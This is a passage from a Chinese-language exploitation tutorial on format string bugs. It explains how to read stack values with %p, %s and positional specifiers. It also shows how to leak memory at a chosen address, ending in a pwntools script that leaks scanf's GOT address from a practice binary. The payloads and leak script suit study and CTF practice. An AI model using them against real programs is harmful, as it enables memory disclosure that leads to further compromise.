 ![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598065504720-8f490d1e-3de7-4745-9c65-d6a926d7d58b.png)**<font style="color:#F5222D;">事实上我们通过%3$x输出的0x1是格式化字符串的第三个参数，所以我们的%3$x就是第三个参数的意思</font>**

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598065504731-ce16d47b-55fd-4de3-bcb3-00437118115f.png)**<font style="color:#F5222D;">但是我们实际上输出的是printf的第四个参数，因为格式化字符串就是printf函数的其中一个参数。这样我们就可以不用遍历整个栈，能够指定输出某个栈上的内容</font>**

### 获取栈变量对应字符串
其实就是把前面格式化字符串的x改成s就可以了，%s会以字符串的形式输出栈地址中的内容，验证过程和上面一样，就不写了

**小技巧总结**

> 利用 %x 来获取对应栈的内存，**<font style="color:#F5222D;">但建议使用 %p，可以不用考虑位数的区别。</font>**
>
> 利用 %s 来获取变量所对应地址的内容，只**<font style="color:#F5222D;">不过有零截断。</font>**
>
> **<font style="color:#F5222D;">利用 %order$x 来获取指定参数的值，利用 %order$s 来获取指定参数对应地址的内容。</font>**
>

### 泄露任意地址内存
有时候我们想要泄露某个libc函数的got表内容，从而的到其地址，进而获取libc版本以及其他函数的地址，这时候能够完全控制泄露某个指定地址的内存就很重要了。**<font style="color:#F5222D;">一般来说在格式化字符漏洞中，我们读取的格式化字符串都在栈上。也就是说在调用输出函数的时候，其实第一个参数的值其实就是该格式化字符串的地址</font>**

由于我们可以控制格式化字符串，如果我们知道格式化字符串在输出函数调用时是第几个参数，这里假设改格式化字符串相对函数调用为第K个参数。那么就可以通过如下 的方式来获取某个指定地址addr的内容

```plain
addr%k$s
```

下面就是如何确定该格式化字符串为第几个参数的问题了，我们可以通过如下方式确定

```plain
[ tag ]%p%p%p%p%p%p%p%p%p%p%p%p.......
```

[tag]为重复某个字符的字节长来作为tag，就是aaaa、bbbb这样就可以。后面个%p会将依次遍历以地址的形式打印出函数参数，试一下：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598065504751-75e3e620-b40d-4e10-8183-ba5b71666835.png)

我们输入的AAAA对应后面到0x41414141，也就是格式化字符串的第四个参数，当然我们也可以使用前面的方法：

```plain
AAAA%4$p
```

那么我们想想，**<font style="color:#F5222D;">如果将AAAA替换成某个函数的got地址，那么程序就会打印出这个函数的真实地址。</font>**我们拿scanf函数举例，获取函数got地址就交给我们的pwntools了：

```python
from pwn import *
sh = process('./leakmemory')
elf = ELF('./leakmemory')
__isoc99_scanf_got = elf.got['__isoc99_scanf'] #获取scanf函数的got地址
print hex(__isoc99_scanf_got)
payload = p32(__isoc99_scanf_got) + '%4$s' #将AAAA%4$p中的A替换成scanf函数的got地址
sh.sendline(payload)
sh.recvuntil('%4$s\n')
print hex(u32(sh.recv()[4:8]))
sh.interactive()
```
